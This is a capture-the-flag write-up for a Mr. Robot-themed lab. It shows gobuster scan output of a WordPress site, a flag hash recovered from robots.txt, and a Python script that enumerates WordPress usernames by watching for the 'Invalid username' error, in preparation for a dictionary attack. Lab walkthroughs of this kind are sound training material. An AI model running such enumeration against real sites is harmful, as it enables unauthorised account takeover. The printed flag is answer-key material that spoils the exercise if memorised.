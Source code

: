 ```
/wp-content           (Status: 301) [Size: 239] [--> http://10.10.224.37/wp-content/]
/wp-includes          (Status: 301) [Size: 240] [--> http://10.10.224.37/wp-includes/]
/wp-config            (Status: 200) [Size: 0]                                         
/wp-cron              (Status: 200) [Size: 0]                                         
/wp-links-opml        (Status: 200) [Size: 227]                                       
/wp-login             (Status: 200) [Size: 2606]                                      
/wp-load              (Status: 200) [Size: 0]                                         
/wp-mail              (Status: 500) [Size: 3064]                                      
/wp-settings          (Status: 500) [Size: 0]                                         
/wp-signup            (Status: 302) [Size: 0] [--> http://10.10.224.37/wp-login.php?action=register]
/xmlrpc.php           (Status: 405) [Size: 42]                            
/xmlrpc               (Status: 405) [Size: 42] 

```

## Key-1

Check inside robots.txt file. There are two files listed.. Just check the `key-1-of-3.txt` file and there it is our first flag.

`073403c8a58a1f80d943455fb30724b9`

We also get a **fsocity.dic** file listed in robots.txt. Let's download if for now.

## Key-2

**wp-login.php** let's check this one out. Got a wordpress login page. Let's try basic sqli.. Did not work... but it seems it gives an error **"Invalid username"**. Maybe I can figure out the username and then use that *fsocity.dict* file for password.. Let's build a script for this.

### Figuring out username for the page

The room is heavily inspired by the tv series *Mr. Robot*. So let's use the major character names in that show as username list for this.

```python
#!/usr/bin/python3

import requests

url = "http://10.10.186.224/wp-login.php"
log = "username"
pwd ="password"
wpsubmit = "login"

username_error = "Invalid username"

user_list = ['Elliot Alderson', 'Elliot', 'Alderson', 'Mr. Robot', 'Darlene Alderson', 'Darlene', 'Whiterose', 'Angela Moss', 'Angela', 'Moss'] 

for f in user_list:
	print(f"Trying Username: {f}", end=" - ")
	payload = {"log": f, "pwd":"password", "wp-submit":"login"}
	r = requests.post(url, data=payload)
	if username_error in r.text:
		print("Did not work")
	else:
		print("Got the username!")
		break

print("END OF SCRIPT")
```
